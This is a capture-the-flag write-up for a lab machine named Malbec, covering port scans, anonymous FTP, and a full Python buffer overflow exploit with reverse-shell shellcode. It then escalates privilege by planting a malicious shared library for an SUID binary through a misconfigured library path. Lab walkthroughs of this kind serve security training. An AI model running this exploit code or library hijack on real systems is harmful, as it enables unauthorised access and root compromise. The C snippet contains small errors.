 # Malbec

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.240.129
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-07 13:44 +08
Nmap scan report for 192.168.240.129
Host is up (0.17s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
2121/tcp open  ccproxy-ftp
7138/tcp open  unknown
```

We can do a detailed scan on this machine in case.

```
$ sudo nmap -p 22,2121,7138 -sC -sV --min-rate 4000 192.168.240.129                
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-07 13:45 +08
Nmap scan report for 192.168.240.129
Host is up (0.17s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 74ba2023899262029fe73d3b83d4d96c (RSA)
|   256 548f79555ab03a695ad5723964fd074e (ECDSA)
|_  256 7f5d102762ba75e9bcc84fe27287d4e2 (ED25519)
2121/tcp open  ftp     pyftpdlib 1.5.6
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxrwxrwx   1 carlos   carlos     108304 Jan 25  2021 malbec.exe [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|  Connected to: 192.168.240.129:2121
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
7138/tcp open  unknown
```

Port 2121 is FTP it seems.

### FTP --> Buffer Overflow

FTP allowed for anonymous access and it only had one file:

```
$ ftp 192.168.240.129 -p 2121
Connected to 192.168.240.129.
220 pyftpdlib 1.5.6 ready.
Name (192.168.240.129:kali): anonymous
331 Username ok, send password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering extended passive mode (|||49067|).
125 Data connection already open. Transfer starting.
-rwxrwxrwx   1 carlos   carlos     108304 Jan 25  2021 malbec.exe
```

We can download this `.exe` file to a Windows machine for some reverse engineering.&#x20;

<figure><img src="../../../.gitbook/assets/image (155).png" alt=""><figcaption><p><em>Old IP from Old Writeup</em></p></figcaption></figure>

When we check the listening ports on our Windows machine, we would see that `malbec.exe` opens port 7138:

<figure><img src="../../../.gitbook/assets/image (731).png" alt=""><figcaption></figcaption></figure>

This machine thus becomes a classic buffer overflow exploit as per OSCP. I won't be going through how to do it here, so here's the final script I used:

```python
#!/usr/bin/python2

import socket

ip = "192.168.240.129"
port = 7138
timeout = 5

pattern = ""
#badchars = "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

# final badchars are \x00
# msfvenom --payload linux/x86/shell_reverse_tcp LHOST=192.168.45.216 LPORT=21 --format c --bad-chars '\x00'
print ("\nSending evil buffer...")
size = 340
offset = "A"*size #filler
eip = "\x03\x15\x10\x41" #rtn
nop = "\x90" * 162
payload =("\xdb\xcf\xd9\x74\x24\xf4\x5a\x2b\xc9\xb1\x12\xbf\xc0\xf8"
"\xda\x09\x31\x7a\x17\x03\x7a\x17\x83\x2a\x04\x38\xfc\x9b"
"\x2e\x4a\x1c\x88\x93\xe6\x89\x2c\x9d\xe8\xfe\x56\x50\x6a"
"\x6d\xcf\xda\x54\x5f\x6f\x53\xd2\xa6\x07\xa4\x8c\x74\x0f"
"\x4c\xcf\x86\xaf\x98\x46\x67\x1f\xc4\x08\x39\x0c\xba\xaa"
"\x30\x53\x71\x2c\x10\xfb\xe4\x02\xe6\x93\x90\x73\x27\x01"
"\x08\x05\xd4\x97\x99\x9c\xfa\xa7\x15\x52\x7c")

#buffer = pattern  #for fuzzing offset
#buffer = offset + badchars #for fuzzing bad chars
buffer = offset + eip + nop + payload 


s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip,port))
s.send(bytes(buffer + "\r\n".encode("latin-1")))
s.close()
print ("\nDone!")
```

We can run this exploit and get a shell as the user:

```
$ python2 exploit_main.py

Sending evil buffer...

Done!
```

<figure><img src="../../../.gitbook/assets/image (740).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### SUID Binary --> Malicious Library

I ran a `linpeas.sh` scan on the machine, and it found a few interesting things.  Firstly, `root` is running `ldconfig` periodically:

<figure><img src="../../../.gitbook/assets/image (713).png" alt=""><figcaption></figcaption></figure>

The next was this SUID binary that I didn't recognise:

```
-rwsr-xr-x 1 root root        17K Jan 26  2021 /usr/bin/messenger
```

The last was a misconfiguration of the `ld.so` files:

<figure><img src="../../../.gitbook/assets/image (723).png" alt=""><figcaption></figcaption></figure>

This was interesting, because it appears that the user's home directory is the part of the configuration, meaning that `.so` files are executed from this directory. We can run `ldd` for the `messenger` binary to check where it loads its shared object files.&#x20;

```
carlos@malbec:/tmp$ ldd /usr/bin/messenger 
        linux-vdso.so.1 (0x00007ffd865bc000)
        libmalbec.so => not found
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f64cb634000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f64cb80a000)
```

So it appears that `libmalbec.so` is not found, and it loads it from `/home/carlos`. This means that we can just create a malicious `libmalbec.so` file that gives us a shell, and since `messenger` is an SUID binary, the shell will be with `root` privileges.&#x20;

Here's the source code I took from HackTricks:

{% code overflow="wrap" %}
```c
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>
// this function name is a result of testing, since it appears that the binary executes a malbec function
// you would get this error if not named properly:
// /usr/bin/messenger: symbol lookup error: /usr/bin/messenger: undefined symbol: malbec
void malbec(){ # the 
    setuid(0);
    setgid(0);
    printf("I'm the bad library\n");
    system("/bin/sh",NULL,NULL);
}
```
{% endcode %}

We just need to compile this and transfer it to the machine:

```
$ gcc -shared -o libmalbec.so -fPIC exploit.c                            
exploit.c: In function ‘say_hi’:
exploit.c:9:5: warning: implicit declaration of function ‘system’ [-Wimplicit-function-declaration]
    9 |     system("/bin/sh",NULL,NULL);
      |  
```

Afterwards, we can wait for `root` to execute `ldconfig`, which would configure the `messenger` binary to use the `libmalbec.so` file we created. Once it does, it will show up in `ldd`:

```
carlos@malbec:/home/carlos$ ldd /usr/bin/messenger
        linux-vdso.so.1 (0x00007ffe3a3e4000)
        libmalbec.so => /home/carlos/libmalbec.so (0x00007f0975667000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f09754a6000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f0975681000)
```

Then, we can just execute `messenger` to get a `root` shell:

<figure><img src="../../../.gitbook/assets/image (329).png" alt=""><figcaption></figcaption></figure>
